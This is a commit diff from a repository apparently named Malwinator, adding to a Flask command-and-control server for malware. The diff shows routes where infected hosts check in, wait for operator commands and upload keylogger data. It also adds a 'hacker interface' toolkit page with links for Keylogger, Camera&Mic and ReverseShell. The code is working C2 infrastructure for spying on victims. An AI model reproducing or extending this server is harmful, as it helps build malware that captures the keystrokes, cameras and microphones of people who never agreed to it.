
After one commit to MarioUta/Malwinator, a Flask app: page /toolkit in a window 1280 px wide. The commit adds this page. Shown: the whole page, without its empty margins (319-959 px from the left). Run offline with Flask 3, Linux system fonts and the light colour scheme.

Commit message:
Added better functionality for keylogger and improved user interface

```diff
--- a/app.py
+++ b/app.py
@@ -4,17 +4,26 @@ import threading
 
 app = Flask(__name__)
 
+
+''' The hosts dictonary form
+  hosts [(ip, host_name)] = {
+    'status': 0/1
+    'command': string
+    'log': string[]
+  }
+'''
 hosts = {}
 
-#host routes
+# server handshake to keep track of each host
 @app.route('/handshake', methods = ['POST'])
 def handshake():
   global hosts
   key = (request.remote_addr, request.form['name'])
-  hosts[key] = {'lock' : threading.Lock(), 'command' : '', 'status' : 'Not ready', 'log' : ['']}
+  hosts[key] = {'lock' : threading.Lock(), 'command' : '', 'status' : '0', 'log' : ['']}
   hosts[key]['lock'].acquire()
   return 'Request accepted', 200
 
+# the download route for the download command
 @app.route('/download', methods = ['POST'])
 def download():
   file = request.form['file']
@@ -24,25 +33,37 @@ def download():
   else:
     return 'File not found', 404
 
+# the client is waiting here for the commands
 @app.route('/ready', methods = ['POST'])
 def timeout():
   global hosts
   key = (request.remote_addr, request.form['name'])
+
+  # the host blocks until the command is ready
   hosts[key]['lock'].acquire()
+
+  # when the mutex is unlocked the command is sent to the host
   return hosts[key]['command'], 200
 
 @app.route('/pong', methods = ['POST'])
 def pong():
   global hosts
+
+  # this is where hosts can send their ping responses
+  # after a response the host status will be set
   key = (request.remote_addr, request.form['name'])
-  hosts[key]['status'] = 'Ready'
+  hosts[key]['status'] = '1'
+
   return 'Pong sent.', 200
 
 @app.route('/log', methods = ['POST'])
 def log_post():
   global hosts
+
+  # this is where the host can send it's keylog data
   key = (request.remote_addr, request.form['name'])
   hosts[key]['log'].append(request.form['key'])
+
   return 'Ok', 200
 
 #interface routes
@@ -50,12 +71,15 @@ def log_post():
 def displayHosts():
   global hosts
   for host in hosts:
+    # ping the hosts to see who's up
     hosts[host]['command'] = 'ping'
-    hosts[host]['status'] = 'Not ready'
+    hosts[host]['status'] = '0'
+
+    # sending the ping command
     if hosts[host]['lock'].locked():
       hosts[host]['lock'].release()
 
-  time.sleep(1)
+  time.sleep(1) # waiting 1s for responses
 
   keys = []
   for ip, name in hosts:
@@ -66,33 +90,57 @@ def displayHosts():
 @app.route('/send', methods = ['GET'])
 def send_form():
   global hosts
+
+  # this is for the hacker interface
   name = request.args.get('name')
   ip = request.args.get('ip')
+
   return render_template('form.html', name = name, ip = ip)
+
+@app.route('/toolkit', methods = ['GET'])
+def show_toolkit():
+  global hosts
+
+  # this is for the hacker interface
+  name = request.args.get('name')
+  ip = request.args.get('ip')
+
+  return render_template('toolkit.html', name = name, ip = ip)
 
 @app.route('/send', methods = ['POST'])
 def send_process():
   global hosts
-  name = request.args.get('name')
-  ip = request.args.get('ip')
+  name = request.form['name']
+  ip = request.form['ip']
   key = (ip, name)
   command = request.form['command']
+
   hosts[key]['command'] = command
   if hosts[key]['lock'].locked():
     hosts[key]['lock'].release()
-  else:
-    return 'Host offline'
-  if command == 'log':
-    return render_template('log.html', name = name, ip = ip)
-  return render_template('form.html', name = name, ip = ip)
+    return 0
 
-@app.route('/getLog', methods = ['POST'])
+  return 1
+
+@app.route('/getLog', methods = ['GET', 'POST'])
 def getLog():
   global hosts
-  name = request.form['name']
-  ip = request.form['ip']
-  key = (ip, name)
-  return ''.join(hosts[key]['log'])
 
-if __name__ == '__main__':
-  app.run(ssl_context=('/etc/letsencrypt/live/malwinator.chickenkiller.com/fullchain.pem', '/etc/letsencrypt/live/malwinator.chickenkiller.com/privkey.pem'), debug=False, host='192.168.0.100', port='8082')
+  if request.method == 'GET':
+    name = request.args.get('name')
+    ip = request.args.get('ip')
+
+    return render_template('log.html', name = name, ip = ip, message="Log data:")
+
+  elif request.method == 'POST':
+    name = request.form['name']
+    ip = request.form['ip']
+    key = (ip, name)
+    return ''.join(hosts[key]['log'])
+
+
+# if __name__ == '__main__':
+#   app.run(ssl_context=('/etc/letsencrypt/live/malwinator.chickenkiller.com/fullchain.pem', '/etc/letsencrypt/live/malwinator.chickenkiller.com/privkey.pem'), debug=False, host='0.0.0.0', port='8082')
+
+if __name__ == "__main__":
+  app.run(host='127.0.0.1', port='8088')
--- /dev/null
+++ b/static/css/styles.css
@@ -0,0 +1,91 @@
+/* Center the form */
+body {
+    display: flex;
+    flex-direction: column;
+    justify-content: center;
+    align-items: center;
+    height: 100vh;
+    margin: 0;
+    font-family: Arial, sans-serif;
+}
+
+/* Style the form and buttons */
+form {
+    display: flex;
+    flex-direction: column;
+    align-items: center;
+    padding: 20px;
+    border: 1px solid #ccc;
+    border-radius: 5px;
+    box-shadow: 0 0 10px rgba(0, 0, 0, 0.1);
+}
+
+.btn {
+    text-decoration: none;
+    margin-top: 10px;
+    padding: 10px 20px;
+    border: none;
+    border-radius: 5px;
+    background-color: #007BFF;
+    color: white;
+    cursor: pointer;
+    transition: background-color 0.3s ease;
+}
+
+.btn:hover {
+    background-color: #0056b3;
+}
+
+.container {
+    font-family: Arial, sans-serif;
+    background-color: #f4f4f4;
+    margin: 20px;
+    padding: 30px;
+    width: 50%;
+}
+
+.title {
+    color: #333;
+    text-align: center;
+    border-bottom: 2px solid #333;
+    padding-bottom: 10px;
+}
+
+.link-list {
+    list-style-type: none;
+    padding: 20px;
+}
+
+.link-item {
+    margin-bottom: 15px;
+}
+
+.link-item a {
+    display: block;
+    padding: 10px;
+    margin: 5px 0;
+    text-decoration: none;
+    color: #007BFF;
+    border: 1px solid #007BFF;
+    border-radius: 5px;
+    transition: background-color 0.3s;
+}
+
+.link-item a:hover {
+    background-color: #007BFF;
+    color: #fff;
+}
+
+.link-properties {
+    display: flex;
+    justify-content: space-between;
+    margin-top: 5px;
+}
+
+.property {
+    font-size: 14px;
+}
+
+.property-name {
+    font-weight: bold;
+}
--- a/templates/form.html
+++ b/templates/form.html
@@ -13,7 +13,6 @@
 <body>
     <form action="/send?name={{name}}&ip={{ip}}" method="post">
         <label for="command">Enter command:</label><br>
-        <!-- Replace input type="text" with textarea -->
         <textarea id="command" name="command"></textarea><br><br>
         <input type="submit" value="Submit">
     </form>
--- /dev/null
+++ b/templates/toolkit.html
@@ -0,0 +1,17 @@
+<!DOCTYPE html>
+<html lang="en">
+<head>
+    <meta charset="UTF-8">
+    <meta name="viewport" content="width=device-width, initial-scale=1.0">
+    <title>Centered Input Buttons</title>
+    <link rel="stylesheet" href="{{url_for('static', filename='css/styles.css')}}">
+</head>
+<body>
+    <h1>Choose a tool</h1>
+    <a class="btn" href="/getLog?name={{name}}&ip={{ip}}">Keylogger</a>
+    <a class="btn" href="/?name={{name}}&ip={{ip}}">Camera&Mic</a>
+    <a class="btn" href="/?name={{name}}&ip={{ip}}">ReverseShell</a>
+    <a class="btn" href="/">See hosts</a>
+
+</body>
+</html>
```
Also changed, not shown: static/js/log.js (added, +57 -0 lines), templates/index.html (+27 -7 lines), templates/log.html (+14 -26 lines).
